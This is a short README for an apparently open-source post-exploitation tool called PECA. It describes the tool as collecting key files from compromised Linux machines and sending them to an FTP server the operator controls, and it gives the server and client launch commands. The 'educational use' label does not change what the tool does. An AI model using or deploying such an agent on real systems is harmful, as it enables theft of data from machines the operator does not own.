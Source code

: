 # PECA
Post Exploitation Collection Agent

Note: For educational use only
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
##### Intro:
    Peca was designed to help collect key files from linux 
    machines after exploitation has occured.
    
##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user user --password user
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user user --password user
```
